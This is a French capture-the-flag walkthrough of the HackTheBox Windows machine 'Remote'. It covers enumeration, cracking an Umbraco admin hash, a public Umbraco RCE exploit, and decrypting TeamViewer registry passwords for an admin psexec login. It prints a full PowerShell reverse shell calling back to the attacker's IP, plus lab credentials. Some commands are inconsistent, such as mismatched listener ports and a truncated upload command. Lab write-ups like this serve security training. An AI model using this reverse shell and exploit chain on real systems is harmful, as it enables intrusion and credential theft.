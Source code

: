 ![Pic1](../img/remote1.PNG?raw=true) </br>

# Introduction
Remote est une machine Windows dont l'adresse IP est 10.10.10.180.</br>
Compétences mises en oeuvre :
* Enumération des ports et services d'une machine distante.
* Enumération des fichiers/dossiers d'un site web.
* Montage d'un répertoire partagés.
* Transfert de fichier de l'attaquant à la box en powershell.
* Elévation de privilège via une ancienne version de TeamViewer.
</br>

# Enumération initiale
Nous commençons l'énumération par les ports et services de la machine distante avec nmap :
```bash
$ nmap -T4 -A 10.10.10.180
```
![Pic2](../img/remote2.PNG?raw=true) </br>
![Pic3](../img/remote3.PNG?raw=true) </br>
Beaucoup de ports sont ouverts, nous pouvons reconnaitre les ports habituels d'un serveur Windows :
*21 pour un serveur ftp, dont l'utilisateur Anonymous est autorisé.
*80 pour un serveur web.
*111 pour du rpc.
*135 pour du msrpc, il permet des appels de procédures RPC.
*139 pour du netbios-ssn, il permet la découverte et la connexion des voisins dans le réseau.
*445 pour un service SMB.
*2049 pour un démon de montage (rpc.mount).
</br>

Nous allons faire une énumération des fichiers/dossiers du site web avec dirsearch :
```bash
$ dirsearch -w wordlist -e "php,html,aspx" -f -t 100 -x 400,403,404,501 -u http://10.10.10.180
```
![Pic4](../img/remote4.PNG?raw=true) </br>
Plein de dossier, l'énumération n'est pas exhaustive, umbraco est intéréssant car c'est un cms.

# Obtenir un accès utilisateur
Pour l'instant, nous avons rien à faire avec Umbraco, nous allons voir les répertoires partagés disponibles :
```bash
$ showmount -e 10.10.10.180
```
![Pic5](../img/remote5.PNG?raw=true) </br>
Nous allons monter ce répertoire chez nous et l'explorer :
```bash
$ sudo mount.nfs 10.10.10.180:site_backups /mnt/site_backups/ -w
```
Le dossier site_backup étant une sauvegarde du site, en cherchant sur internet, nous trouvons que Umbraco garde les hash des mot de passes dans un fichier Umbraco.sdf :
```bash
$ strings App_Data\Umbraco.sdf | grep -A 2 -B 2 'dmin'
```
![Pic6](../img/remote6.PNG?raw=true) </br>
Maintenant que nous avons le hash de l'utilisateur admin, nous pouvons le cracker avec john :
```bash
$ john hash.txt --wordlist=/usr/share/wordlists/rockyou.txt
```
![Pic7](../img/remote7.PNG?raw=true) </br>
Donc nous avons l'utilisateur admin:baconandcheese, nous allons voir s'il y a un exploit avec searchsploit pour Umbraco pour avoir une RCE authentifiée :
```bash
$ searchsploit umbraco
```
![Pic8](../img/remote8.PNG?raw=true) </br>
Après plusieurs tests, l'exploit ne fonctionne pas, au lieu d'y consacrer trop de temps, un autre exploit fonctionnel est sur github :
```bash
$ git clone https://github.com/noraj/Umbraco-RCE
$ python3 exploit.py -u "admin@htb.local" -p "baconandcheese" -i 'http://10.10.10.180/' -c powershell.exe -a '-NoProfile -Command whoami'
```
![Pic9](../img/remote9.PNG?raw=true) </br>
Edit : j'ai eu le même problème que l'exploit d'avant, sauf que j'ai reussis à résoudre le problème. Bref, maintenant que nous avons une RCE en powershell,
nous allons upload et executé un reverse shell en powershell :</br>
Contenu du fichier shell.ps1 :
```bash
$client = New-Object System.Net.Sockets.TCPClient("10.10.14.43",8000);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + "# ";$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()
```
Maintenant pour l'upload, nous allons mettre un serveur python3 en place, un listener sur le port 4567 et envoyer le shell avec powershell sur la box :
```bash
$ python3 -m http.server
```
```bash
$ nc -lvnp 4567
```
```bash
$ python3 exploit.py -u "admin@htb.local" -p "baconandcheese" -i 'http://10.10.10.180/' -c powershell.exe -a '-NoProfile -Command curl'
```
![Pic10](../img/remote10.PNG?raw=true) </br>
Après avoir reçu la connection sur netcat, nous allons regarder le fichier user.txt situé dans user/public.

# Obtenir un accès Administrateur
En jetant un oeil sur les logiciels installés, nous pouvons voir TeamViewer :
```bash
$ ls "C:\Program Files (x86)"
```
![Pic11](../img/remote11.PNG?raw=true) </br>
Il s'agit là d'une ancienne version de TeamViewer : version 7. Un exploit est disponible en ligne :</br>
https://whynotsecurity.com/blog/teamviewer/</br>
En résumé :
*Teamviewer garde les mot de passes dans le registre sous la valeur SecurityPasswordAES
*Les mot des passes sont chiffrés avec AES-128-CBC dont on a la Key et l'IV.
</br>

D'abord, il faut énumérer la clé de registre qui correspond à TeamViewer pour avoir le mot de passe chiffré :
```bash
$ reg query HKLM\SOFTWARE\Wow6432Node\TeamVierwer\Version7
```
![Pic12](../img/remote12.PNG?raw=true) </br>

Puis nous le crackons avec le script python vu dans le blog de whynotsecurity (ne pas oublier de remplacer la string correspondante au mot de passe) :
```bash
$ python3 decrypt.py
```
![Pic13](../img/remote13.PNG?raw=true) </br>
Maintenant nous pouvons nous connecter sur la machine avec le PsExec de metasploit et chercher le root.txt :
```bash
$ msfconsole
msf > use windows/smb/psexec
msf > set rhost 10.10.10.180
msf > set SMBUser administrator
msf > set SMBPass !R3m0te!
msf > run
Meterpreter > cat C:\\Users\Administrator\\Desktop\\root.txt
```
![Pic14](../img/remote14.PNG?raw=true) </br>